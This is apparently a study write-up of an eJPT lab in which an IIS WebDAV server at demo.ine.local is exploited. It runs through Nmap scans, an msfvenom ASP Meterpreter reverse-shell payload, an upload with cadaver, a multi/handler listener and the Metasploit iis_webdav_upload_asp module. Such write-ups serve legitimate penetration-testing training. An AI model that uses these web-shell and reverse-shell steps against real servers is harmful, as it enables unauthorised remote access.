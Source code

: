```yaml
---
title: "eJPT - Windows IIS Server WebDav Metasplit Walkthrough & Insights"
date: 2025-03-31 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
---
```


---

## Lab Environment

In this lab environment, you will be provided with GUI access to a Kali machine. The target machine will be accessible at **demo.ine.local**.

**Objective:** Exploit the WebDAV service and retrieve the flag!

**The following username and password may be used to access the service:**

**Credentials:**
```
Username: bob
Passowrd: password_123321
```
# Tools

- Metasploit
- DAVTest
- Cadaver

Let’s with the lab

---

### Video Walkthrough's

{% include embed/youtube.html id='49SaqHOj_Pc' %}


### Service Enumeration using Nmap:

Started with Nmap to discovery the services that are running on the target

command

```bash
nmap -sV -sC demo.ine.local
```

 Breakdown:

- `-sV`: Enables version detection, which identifies the software version running on open ports.
- `-sC`: Runs default scripts (`default` category from NSE - Nmap Scripting Engine).
- `demo.ine.local`: The target domain or hostname.
![alt text](</assets/img/Pasted image 20250331121134.png>)

![alt text](</assets/img/Pasted image 20250331121152.png>)
Narrowed the Nmap scan to the specific port then also used a script that extract some more information form the specific port and it’s services.

```bash
nmap -sV -sC -p 80 --script=http-enum demo.ine.local
```
![alt text](</assets/img/Pasted image 20250331121229.png>)

![alt text](</assets/img/Pasted image 20250331121308.png>)



### Creating a asp shell using msfconsole

![alt text](</assets/img/Pasted image 20250331121345.png>)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=4444 -f asp > shell.asp
```

**Breakdown:**

- `msfvenom` → A payload generator in **Metasploit**, used to create shellcodes, backdoors, and exploits.
- `-p windows/meterpreter/reverse_tcp` → Specifies the **payload**:
    - `windows/meterpreter/reverse_tcp` → A **Meterpreter** reverse shell payload for Windows.
    - `reverse_tcp` → This means the target machine will **connect back** to the attacker's machine (LHOST).
- `LHOST=<YOUR_IP>` → The attacker's **IP address** (listener machine where the reverse shell will connect).
- `LPORT=4444` → The **port number** the shell will connect back to (default: `4444`).
- `-f asp` → Specifies the **format** of the payload (`asp` for an Active Server Page web shell).
- `> shell.asp` → Saves the generated payload as **`shell.asp`** (which can be uploaded to a vulnerable web server).
### Uploading asp file using cadaver

![alt text](</assets/img/Pasted image 20250331121400.png>)


```bash
cadaver <http://demo.ine.local/webdav>
```

**Breakdown:**
- `cadaver` → A **command-line WebDAV client** used to interact with Web Distributed Authoring and Versioning (**WebDAV**) servers.
- `http://demo.ine.local/webdav` → The **URL of the WebDAV server** you want to connect to.
Start the reverse handler for it

#### **Common Commands in Cadaver (Once Connected)**

After connecting, you can use the following commands:

|Command|Description|
|---|---|
|`ls`|List files in the current directory|
|`cd <dir>`|Change directory|
|`put <file>`|Upload a file to the server|
|`get <file>`|Download a file from the server|
|`delete <file>`|Remove a file from the server|
|`mkdir <dir>`|Create a directory on the WebDAV server|
|`rmdir <dir>`|Remove a directory|
|`exit` or `quit`|Close the connection|

Then run the asp file. and we got the access

![alt text](</assets/img/Pasted image 20250331121445.png>)

```bash
service postgresql start && msfconsole 
use multi/handler/
set payload windows/meterpreter/reverse_tcp
set lhost
set lport 
run
```
**Breakdown:**

- `service postgresql start` → Starts the **PostgreSQL database**, which Metasploit uses to store exploits and sessions.
- `&&` → Ensures that **Metasploit Framework (`msfconsole`)** starts **only if** PostgreSQL starts successfully.
- `msfconsole` → Launches the **Metasploit Framework Console** for running exploits and managing sessions.
- - `use multi/handler` → Loads the **multi-handler** module, which is used to receive incoming connections from exploited machines.
- `/` at the end is unnecessary; it should just be `use multi/handler`.
- - `set payload windows/meterpreter/reverse_tcp` → Configures the listener to handle *Windows Meterpreter reverse shell connections**.
- `reverse_tcp` → The target system will **connect back** to the attacker's system.
- - `set LHOST <YOUR_IP>` → Specifies the **attacker's IP address** (where the reverse shell will connect).
- `set LPORT <YOUR_PORT>` → Defines the **port number** to listen for incoming connections (default: `4444`).
- - Starts the listener to **wait for incoming connections** from the target machine.
- Once the target **executes the payload**, the attacker **gains a Meterpreter session**.

![alt text](</assets/img/Pasted image 20250331121502.png>)
---

## Here the version 2 for the same lab!

This version of Metasploit leverages msfconsole modules to automate and simplify the exploitation process, making it much easier for the end user (attacker).
- **Category**: Exploit Module
- **Purpose**: Uploads a malicious ASP shell to an IIS WebDAV-enabled server, allowing remote command execution.

### Starting the msfconsole

```bash
service postgresql start && msfconsole
```

```bash
serach iis upload
use exploit/windows/iis/iis_webdav_upload_asp
set httpusername 
set httppassword
set rhost
set path
run
```

- **Search for IIS Upload Exploits** – Finds available Metasploit modules for exploiting IIS file uploads.
- **Select the IIS WebDAV Upload Exploit** – Loads an exploit that allows uploading malicious ASP files to a WebDAV-enabled server.
- **Set Authentication Credentials (If Required)** – Provides login details if the server requires authentication.
- **Define the Target Host** – Specifies the IIS server’s IP address.
- **Set the Upload Path** – Chooses the directory where the file will be uploaded.
- **Execute the Exploit** – Uploads the ASP shell and attempts to gain remote code execution on the server.
